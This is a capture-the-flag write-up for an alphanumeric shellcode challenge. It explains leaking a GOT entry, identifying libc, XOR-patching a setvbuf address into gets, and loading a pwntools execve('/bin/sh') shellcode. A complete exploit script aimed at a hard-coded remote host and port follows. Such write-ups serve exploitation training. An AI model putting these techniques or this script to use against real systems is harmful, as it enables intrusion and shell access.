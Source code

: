 This is the second of two challenges.

This one is more restricted than the first.

You can save shellcode up to 16bytes, alphanumeric only then execute up to 6 of them.

The return value in EAX of shellcode is printed in hexadecimal after the shellcode execution.

Unlike the first of the serie, there is no argument that can be passed to the shellcode.

The shellcodes are executed in a RWX segment.

When entering the shellcode we saw that:

* EAX point to the mapped zone (shellcode called by a call eax)
* EDX points to the end of the shellcode (EAX+16 so)
* EBX point to the GOT (fullrelro , non writable)

Our strategy will be:

First we dump some GOT entries to identify the remote libc version
then we use https://libc.blukat.me/ website to identify it.

it was:  libc6-i386_2.23-0ubuntu11.2_amd64.so
same version than the first challenge.

So now that we know the libc version,
* setvbuf function offset in libc is 0x5f810
* gets function offset in libc is 0x5e8a0

so if we read setvbuf address, and do a xor 0x10b0 on it.. we will have gets address,

but off course we can not write in GOT as the executable is FULLRELRO.

we gonna send a first alphanumeric shellcode to read the GOT entry of setup,

then store it further in the shellcode mapped zone , for the others shellcode usage..

then the two next shellcodes, we xor the lsb with 0xb0,  then the second byte with 0x10

now our stored address is changed to gets function address.



The last shellcode will, get back this value, push our mapped zone address on stack, 

to use as gets function argument. then return to gets..

Then we will send a normal shellcode this time, with no restrictions, only the carriage return will end gets input.

We will write on the mapped shellcode zone where we are, then we return to it..

The last payload will be a execve('/bin/sh') shellcode, the one from pwntools.

And...Badaboom !

We got shell ;)

*Nobodyisnobody for RootMeUpBeforeYouGoGo

```
from pwn import *

host, port = "151.236.114.211", "17183"
context.arch = 'i386'

def save_shellcode(shellcode):
    r.sendlineafter("> ", "1")
    r.sendafter("shellcode: ", shellcode)

def run_shellcode(idx):
    r.sendlineafter("> ", "4")
    r.sendlineafter("idx: ", str(idx))

# first shellcode get setvbuf address in got, and store it for later
sc1 = asm("""
    push 0x41
    pop eax
    xor eax,[ebx+0x30]
    xor al,0x41
    xor [edx+0x30],eax
""")
# 2nd shellcode xor lsb byte of stored address
sc2 = asm("""
	push 0x41
	pop eax
	xor al,0x41
	dec eax
	xor	al,0x4f
	xor	[edx+0x30],al
""")
# 3rd shellcode xor second byte of stored address
sc3 = asm("""
	push 0x41
	pop	eax
	xor al,0x51
    xor     [edx+0x31],al
""")

# now the stored setvbuf address is changed to gets address, we call gets on ourselves, execution will continue in our second shellcode
sc4 = asm("""
	push 0x41
	pop	eax
	xor al,0x41
	xor eax,[edx+0x30]
	push edx
	push edx
	push eax
""")

# pad the shellcodes to the right length
sc1 = sc1.ljust(16,'O')
sc2 = sc2.ljust(16,'O')
sc3 = sc3.ljust(16,'O')
sc4 = sc4.ljust(16,'O')

r = remote(host, port)

# send 1st shellcode
save_shellcode(sc1)
run_shellcode(0)
# leak setvbuf (not really needed, just for info)
leak1 = int(r.recvuntil("===", drop=True).splitlines()[0].split(' = ')[1],16)
print('leak setvbuf = '+hex(leak1))
# send 2nd shellcode
save_shellcode(sc2)
run_shellcode(1)
# send 3rd shellcode
save_shellcode(sc3)
run_shellcode(2)
# send last shellcode
save_shellcode(sc4)
run_shellcode(3)
# send second payload
r.sendline(asm(shellcraft.linux.sh()))

#enjoy shell
r.interactive()

```

